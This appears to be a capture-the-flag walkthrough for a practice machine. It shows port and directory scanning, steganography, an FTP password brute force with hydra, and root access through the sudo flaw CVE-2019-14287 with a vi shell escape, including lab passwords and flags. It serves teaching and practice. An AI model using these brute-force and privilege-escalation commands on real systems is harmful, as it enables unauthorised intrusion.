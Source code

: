 #### 1. Scanning

`nmap -Pn -A -T4 10.10.147.74`

```                                          255 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-01 13:42 EST
Nmap scan report for 10.10.147.74
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

There are 3 open ports: 21,22,80



#### 2. Gobuster

`gobuster dir -u 10.10.147.74 -w /usr/share/wordlists/dirb/common.txt -e php,txt,html`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.147.74
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/02/01 13:42:32 Starting gobuster
===============================================================
http://10.10.147.74/.htpasswd (Status: 403)
http://10.10.147.74/.hta (Status: 403)
http://10.10.147.74/.htaccess (Status: 403)
http://10.10.147.74/assets (Status: 301)
http://10.10.147.74/index.html (Status: 200)
http://10.10.147.74/server-status (Status: 403)
===============================================================
2021/02/01 13:44:54 Finished
===============================================================
```

The only interesting directory is `/assets`



#### 3. Checking /assets

I download a video and in the same time read `style.css` which contains a clue:

```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
```


#### 4. Checking /sup3r_s3cr3t_fl4g.php

I run burp and open the website to intercept a response with a link to hidden website:

```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.147.74
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Additionally, ean rror message shows up while opening it and instructs to turn off javascript, so in Firefox:

`about:config` ---> `javascript enabled` ---> I switched to false

There is a modified youtube video which it turns out to be a rabbit hole.



##### 5. Checking hidden website.

I go to:

`http://10.10.147.74/WExYY2Cv-qU/`

which has a jpg file inside

I download it and run couple of tools which give nothing: binwalk, steghide, exiftools.

Finally zsteg finds a clue:

```
extradata:0         .. text: "Ot9RrG7h2~24?\nEh, you've earned this. Username for FTP is ftpuser\nOne of these is the password
```


#### 6. Bruteforcing ftp with hydra

I have a username `ftpuser` to ftp so let's run hydra and bruteforce a password:

`hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt 10.10.147.74 ftp`

After a very long time hydra finds the password `5iez1wGXKfPKQ`



#### 7. FTP

I login to ftp and download `Eli's_Creds.txt` to my machine:

```
ftp 10.10.147.74

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt

ftp> get Eli's_Creds.txt

ftp> 
```


I cat it and see some symbols:

```
cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is called Brainfuck. There is an online decoder available here:

`https://www.splitbrain.org/_static/ook/`

and after decoding I get credentials:

```
User: eli
Password: DSpDiM1wAEwid
```


#### 8. SSH as eli

Once I ssh there is a message:

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

My first thought was to simply type `locate s3cr3t`

and it seemed to work:

```
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```

Afterwards, I cat a file made for gwendoline and get her password:

```
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```


#### 9. Switching to gwendoline

I su to gwendoline and read user.txt

```
gwendoline@year-of-the-rabbit:~$ cat user.txt
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```


#### 10. Escalate to root

I check sudo -l but there is nothing useful:

```
sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can use sudo with any user except of root. However, there is a vulnerability CVE-2019-14287 which can help us here.

Briefly speaking, sudo reverts to user 0 (root) when we choose user -1 so:

`gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

and then `:` and `!/bin/bash` which made me root:

```
root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
